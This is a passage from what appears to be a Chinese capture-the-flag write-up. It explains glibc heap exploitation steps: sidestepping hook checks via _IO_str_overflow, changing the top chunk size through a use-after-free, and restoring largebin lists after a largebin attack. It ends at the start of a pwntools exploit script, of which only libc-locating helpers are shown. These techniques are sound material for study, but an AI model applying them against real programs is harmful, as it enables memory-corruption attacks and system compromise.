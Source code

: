 3.禁用**free_hook 和**malloc_hook

这道题实际上会检查这两个 hook 函数的数据来防止非预期的，但实际上我们利用 **_IO_str_overflow** 这个函数来控制程序流程使得程序根本没有机会来检测__free_hook，所以就相当于我们绕过了这个检测。

4.修改 top chunk 的 size

这个主要是利用 unsortedbin 堆块与 top chunk 合并后的 UAF 来达成的，就是提前申请一块空间再释放掉使其与 top chunk 合并，之后再申请其中的一部分（小于提前申请的 size），使得新的 top chunk size 能够落在提前申请的空间内，再利用 UAF 就可以修改 top chunk 的 size 了。

这个操作需要注意需要在修改 mp_.tcache_bins 之前完成，因为修改之后再 free 就会直接进入 Tcache 中，而不会认为是 unsortedbin 来进行 unlink。

5.恢复 largebin 信息

在 largebin Attack 后，原来的 largebin 链表被破坏，所以当下次使用的时候就会发生异常导致程序异常退出。所以如果我们需要多次的 largebin Attack，就一定要在攻击之后恢复链表数据，恢复的链表数据可以先把 largebin Attack 需要进行的那行 UAF 修改代码注释掉（不进行 largebin Attack），再调试就可以得到正常情况下的数据。

### <a class="reference-link" name="%E6%80%BB%E7%BB%93"></a>总结

以上部分就是本题中比较新颖的点，其他的利用部分都曾经出现过（例如 orw 的具体利用），我在上文也给出了相应的学习文章，这里就不展开来说。这道题在比赛 Break 环境仅仅三个小时的攻击时间中，居然有人做了出来，实在是佩服。我对于这道题的利用尝试了各个方法，调试了一下午才成功解出，虽然在文章中直接写出的是正解的做法，但是在实际做题中我走了不少的弯路。所以希望各位师傅除了看之外，可以尝试着去做做这道题。

### <a class="reference-link" name="EXP"></a>EXP

```
from pwn import *

elf = None
libc = None
file_name = "./pwn"


# context.timeout = 1


def get_file(dic=""):
    context.binary = dic + file_name
    return context.binary


def get_libc(dic=""):
    libc = None
    try:
        data = os.popen("ldd `{``}`".format(dic + file_name)).read()
        for i in data.split('\n'):
            libc_info = i.split("=&gt;")
            if len(libc_info) == 2:
                if "libc" in libc_info[0]:
                    libc_path = libc_info[1].split(' (')
                    if len(libc_path) == 2:
                        libc = ELF(libc_path[0].replace(' ', ''), checksec=False)
                        return libc
    except:
        pass
    if context.arch == 'amd64':
        libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
    elif context.arch == 'i386':
        try:
            libc = ELF("/lib/i386-linux-gnu/libc.so.6", checksec=False)
        except:
            libc = ELF("/lib32/libc.so.6", checksec=False)
    return libc


def get_sh(Use_other_libc=False, Use_ssh=False):
```